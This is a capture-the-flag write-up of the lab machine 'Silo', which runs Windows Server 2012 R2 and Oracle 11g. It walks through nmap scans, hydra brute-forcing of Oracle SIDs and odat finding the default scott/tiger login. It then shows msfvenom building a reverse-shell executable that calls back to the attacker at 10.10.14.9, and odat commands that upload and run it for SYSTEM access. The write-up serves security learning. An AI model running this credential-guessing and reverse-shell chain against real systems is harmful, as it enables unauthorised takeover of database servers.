


## Overview

Silo is a Windows Server box running Oracle 11g that was using the default SID names and was accessible using the default scott/tiger credentials. Once I determined the credentials I was able to log into the database will full access, upload a reverse shell and get full access to the box.

## Enumeration

**Software**

* Windows Server 2012 R2
* Oracle 11.2.0.2.0

**Open Ports**

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN results/10.10.10.82/scans/_full_tcp_nmap.txt
```

* 80/tcp - http

* 135/tcp - Windows RPC

* 139/tcp - NetBIOS

* 445/tcp - SMB

* 1521/tcp - Oracle TNS

* 5985/tcp - WinRM

* 47001/tcp - Windows RPC

* 49152-55/tcp - Windows RPC

* 49159/tcp - Oracle TNS

* 49160-62/tcp - Windows RPC

## Steps (User)

I started out by browsing to http://10.10.10.82 but received the default IIS webpage. I ran a file/directory brute force but no results were returned. I was also not able to access the smb share anonymously so I moved on to port 1521, Oracle TNS. I learned that TNS stands for Transparent Network Substrate and was created by oracle mainly for connection to Oracle databases.

I didn't have much experience with Oracle databases prior to this so I had to do a bit of reading. The first step when enumerating Oracle databases is determining which instances (SIDs) are listening. A SID is a unique name for an Oracle database instance on a specific host. Hydra supports brute forcing Oracle TNS sids and I used the sids file provided with metasploit with the command and determined 3 SIDs: CLRExtProc, PLSExtProc, XE.

```
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid
```



I attempted to use nmap's oracle-brute-stealth script against the found sides, including XE but the hashes appeared to be missing the salt. More info [here](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force)

```
nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=XE -n 10.10.10.82
```


I did some more research and came across a tool called odat (Oracle Database Attacking Tool).  I ran it specifying all checks and found default username and password scott/tiger but all the other checks were "KO".

```
sudo ./odat.py all -s 10.10.10.82 -p 1521
```



I wanted to see if I could login with the creds that odat found and for that I needed sqlplus. Installing sqlplus on kali is a bit of a manual process. I followed the guide [here](https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573) to get it installed. Once complete, I was able to log in with scott/tiger. I had access but needed to figure out what I could do with it...


After some research I came across the [Oracle RCE](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-rce-and-more#read-write-files) section on the Hacktricks site which showed how to write files to the filesystem and run them from a table both manually and using [ODAT](https://github.com/quentinhardy/odat). The manual method involves uploading a file, creating a table that calls the file, and executing a query on the table to execute the file. ODAT's utilfile and externaltable commands automate this and I opted to go that route.

A requirement of this approach is to upload a file so I went with msfvenom to create a windows reverse shell exe.

```
msfvenom -p windows/x64/shell_reverse_tcp lport=4200 lhost=10.10.14.9 -f exe -o /home/sixstringacks/boxes/silo/rshell.exe
```

I set up a netcat listener and ran odat with the utlfile parameter to upload the reverse shell.

```
~/share/git/odat/odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile  C:/Windows/Temp rshell.exe rshell.exe
```

Next I used the externaltable command to execute that file and received a callback on my netcat listener.

```
~/share/git/odat/odat.py externaltable -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --exec C:/Windows/Temp rshell.exe
```

Surprisingly, I received a shell as 'nt authority/system' so no privilege escalation needed as I had full access to the system including both the user and root flags


## Steps (root/system)

*not needed*
